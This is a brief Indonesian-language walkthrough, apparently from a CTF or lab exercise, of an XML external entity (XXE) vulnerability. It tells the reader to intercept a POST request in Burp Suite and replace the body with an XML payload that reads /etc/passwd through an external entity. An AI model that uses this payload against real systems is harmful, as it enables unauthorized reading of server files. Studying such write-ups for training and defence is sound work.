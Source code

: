 
ini adalah XXE vulnerability yang mana kita bisa membaca file dari kerentanan ini
buka burpsuite dan edit payload ini menjadi seperti ini, saat ada request ke web yaitu POST

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<data>
<foo>
&xxe;
</foo><ID>&xxe;</ID></data>
